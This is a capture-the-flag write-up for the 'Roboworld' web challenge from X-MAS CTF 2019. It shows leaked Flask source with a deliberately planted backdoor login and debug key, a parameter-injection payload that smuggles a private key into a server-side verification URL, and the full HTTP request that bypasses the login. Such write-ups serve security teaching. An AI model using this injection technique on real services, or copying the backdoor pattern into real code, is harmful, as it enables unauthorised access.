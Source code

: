 # X-MAS CTF 2019 – Roboworld

* **Category:** web
* **Points:** 50

## Challenge

> A friend of mine told me about this website where I can find secret cool stuff. He even managed to leak a part of the source code for me, but when I try to login it always fails :(
> 
> Can you figure out what's wrong and access the secret files?
> 
> Remote server: http://challs.xmas.htsp.ro:11000
>
> Files: [leak.py](leak.py)
>
> Author: Reda

## Solution

The webpage contains the following HTML code.

```html
<head>
    <script>
        function captchaGenerateVerificationValue()
        {
            //Devnote:
            //Oops I broke the captcha verification function
            //so it will just generate random stuff for the verification value
            //hope no one notices :O

            var characters       = 'ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789';
            var charactersLength = characters.length;
            result = ""
            for ( var i = 0; i < 10; i++ ) {
                result += characters.charAt(Math.floor(Math.random() * charactersLength));
            }

            document.getElementById("captcha").value = result
        }
    </script>
</head>

Login:

<form method="post" action="/login">
    Username: <input type="text" name="user" /><br>
    Password: <input type="password" name="pass" /><br>
    Captcha: <input id="captcha" onchange="captchaGenerateVerificationValue()" type="checkbox" name="captcha_verification_value" value="" /> I am not a robot <br>
    <input type="submit" value="Login" /><br>
</form>
```

So the CAPTCHA checkbox produces random string.

Analyzing the [leak.py](leak.py) file you can discover that the following credentials are used to login:
* username: `backd00r`;
* password: `catsrcool`.

```python
from flask import Flask, render_template, request, session, redirect
import os
import requests
from captcha import verifyCaptchaValue

app = Flask(__name__)

@app.route('/')
def index():
    return render_template("index.html")

@app.route('/login', methods=['POST'])
def login():
    username = request.form.get('user')
    password = request.form.get('pass')
    captchaToken = request.form.get('captcha_verification_value')

    privKey = "XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX" #redacted
    r = requests.get('http://127.0.0.1:{}/captchaVerify?captchaUserValue={}&privateKey={}'.format(str(port), captchaToken, privKey))
    #backdoored ;)))
    if username == "backd00r" and password == "catsrcool" and r.content == b'allow':
        session['logged'] = True
        return redirect('//redacted//')
    else:
        return "login failed"


@app.route('/captchaVerify')
def captchaVerify():
    #only 127.0.0.1 has access
    if request.remote_addr != "127.0.0.1":
        return "Access denied"

    token = request.args.get('captchaUserValue')
    privKey = request.args.get('privateKey')
    #TODO: remove debugging privkey for testing: 8EE86735658A9CE426EAF4E26BB0450E from captcha verification system
    if(verifyCaptchaValue(token, privKey)):
        return str("allow")
    else:
        return str("deny")
```

Then you have to beat an HTTP GET service available only on localhost. It consumes the CAPTCHA token and a private key that is redacted in the source code.

A TODO comment claims that there is a debugging private key for used for testing: `8EE86735658A9CE426EAF4E26BB0450E`. This seems to be the MD5 of the string: `fuckingdog`.

You can manipulate the link used in the `requests.get` operation, via CAPTCHA parameter, excluding the existing private key parameter through `#` and forcing the debugging private key.

The payload is the following.

```
pwned&privateKey=8EE86735658A9CE426EAF4E26BB0450E#
```

So the following HTTP request can be used.

```
POST /login HTTP/1.1
Host: challs.xmas.htsp.ro:11000
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:71.0) Gecko/20100101 Firefox/71.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: it-IT,it;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 112
Origin: http://challs.xmas.htsp.ro:11000
Connection: close
Referer: http://challs.xmas.htsp.ro:11000/
Upgrade-Insecure-Requests: 1

user=backd00r&pass=catsrcool&captcha_verification_value=pwned%26privateKey%3D8EE86735658A9CE426EAF4E26BB0450E%23

HTTP/1.1 302 FOUND
Server: nginx
Date: Mon, 16 Dec 2019 21:48:49 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 251
Location: http://challs.xmas.htsp.ro:11000/dashboard_jidcc88574c
Connection: close
Vary: Cookie
Set-Cookie: session=eyJsb2dnZWQiOnRydWV9.Xff7wQ.nX353pLhy-6ES9lB32QOopGmz-Y; HttpOnly; Path=/

<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
<title>Redirecting...</title>
<h1>Redirecting...</h1>
<p>You should be redirected automatically to target URL: <a href="/dashboard_jidcc88574c">/dashboard_jidcc88574c</a>.  If not click the link.
```

The page where you will be redirect is the following

```html
<h2>Welcome to the secret website where we store secret stuff</h2>
<br>
<br>
Secret Stuff:
<br>
<a href="/static/hidden_directory_1337_781/098c533dc5420628a9f51c1911198c4c.jpg">098c533dc5420628a9f51c1911198c4c.jpg</a>
<br>
<a href="/static/hidden_directory_1337_781/2.jpg">2.jpg</a>
<br>
<a href="/wtf.mp4">wtf.mp4</a>
```
It will contain three files:
* [098c533dc5420628a9f51c1911198c4c.jpg](098c533dc5420628a9f51c1911198c4c.jpg);
* [2.jpg](2.jpg);
* [wtf.mp4](wtf.mp4).

Inside the [wtf.mp4](wtf.mp4) video there is the flag, reversed in order.

```
X-MAS{Am_1_Th3_R0bot?_0.o}
```